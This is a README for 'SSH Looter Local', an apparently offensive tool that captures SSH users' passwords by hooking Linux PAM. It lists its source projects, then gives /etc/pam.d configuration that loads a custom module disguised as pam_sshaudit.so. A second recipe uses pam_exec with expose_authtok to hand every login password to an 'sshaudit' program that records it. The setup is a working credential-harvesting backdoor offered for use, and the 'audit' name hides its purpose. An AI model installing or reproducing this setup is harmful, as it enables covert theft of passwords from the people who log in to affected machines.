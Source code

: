 # SSH Looter Local

This project cannot be made without reference from:

- https://github.com/mthbernardes/sshLooterC
- https://github.com/cameron-gagnon/ssh_pass_logging
- https://github.com/linux-pam/linux-pam

# Modified Part - License

Licensed under GNU AGPL v3.

# Usage

You may need install dependencies:
- gcc (compiler)
- linux-api-headers (userspace Linux API headers)
- linux-headers (kernel Linux API headers)
- libpam0g-dev

Change `/etc/pam.d/{system,common}-auth`, apply patches like this:

```bash
auth [success=1 default=ignore] pam_unix.so nullok_secure

+ # custom PAM module
+ auth optional pam_sshaudit.so
+ account optional pam_sshaudit.so

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# More simple but obvious way

Use `pam_exec` to record password. Example program written in Golang can be checked in `sshaudit.go`

```bash
auth optional pam_exec.so expose_authtok /usr/bin/sshaudit

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```
